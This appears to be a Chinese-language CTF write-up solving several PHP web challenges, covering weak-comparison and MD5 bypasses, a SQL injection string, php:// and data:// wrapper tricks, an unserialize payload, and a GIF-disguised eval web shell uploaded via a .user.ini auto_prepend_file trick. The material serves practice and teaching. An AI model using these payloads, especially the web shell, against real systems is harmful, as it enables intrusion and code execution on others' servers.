





[TOC]


## 0x10.[ACTF2020 新生赛]Upload

和之前的一个一样，改个后缀名就OK。



## 0x11.[ACTF2020 新生赛]BackupFile

可以简单扫下，发现index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

str弱相等，被转化为整形

传参key=123得到flag

## 0x12.[HCTF 2018]admin

Unicode欺骗：

具体编码可查：https://unicode-table.com/en/search/?q=small+capital 

ᴬᴰᴹᴵᴺ

## 0x13.[极客大挑战 2019]BuyFlag



## 0x14.[BJDCTF2020]Easy MD5

有个hint：

```
select * from 'admin' where password=md5($pass,true)
```

看了wp之后说是有个ffifdyop，原理是这个字符串被md5哈希了之后会变成276f722736c95d99e921722cf9ed621c，而这歌字符串前几位正好是：'or'6，永为真。



因此拼接后为，相当于万能密码。

```
select * from 'admin' where password='' or '6xxxxx'
```

之后：

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

这个绕过就有很多方法了，比如`php?a[]=1&b[]=2`或者构造两组md5值开头为0e的值即可绕过。

在之后：

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

这里把\==换成了\===，0e大法失效，只能数组绕过。

## 0x15.[SUCTF 2019]CheckIn

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

上传



本题的重点来了，文件包含漏洞，

user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。可谓很广，不像.htaccess有局限性，只能是apache.

什么是.user.ini？

这得从php.ini说起了，php.ini是php的默认配置文件，这些配置中，分为几种：



除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

>   `.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

要用到的配置：**`auto_append_file`**：**指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数**

比如：`auto_prepend_file=1.gif`

之后

```
GIF89a? 
auto_prepend_file=1.gif`
```

关于.user.ini的文章：

https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## 0x16.[ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

知识点：

```
data伪协议写入文件
php://filter用于读取源码
php://input用于执行PHP的代码
```

首先：

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")`

data协议通常是用来执行PHP代码，然而我们也可以将内容写入data协议中然后让file_get_contents函数取读取。构造如下：

```
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

当然也可以不需要base64，但是一般为了绕过某些过滤都会用到base64。

```
data://text/plain,welcome to the zjctf
```

接下来是file:

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

得到：

```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

参考反序列化基础的文章：https://www.freebuf.com/articles/web/167721.html

构造：

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php"}
```

最终payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

## 0x17.[极客大挑战 2019]HardSQL


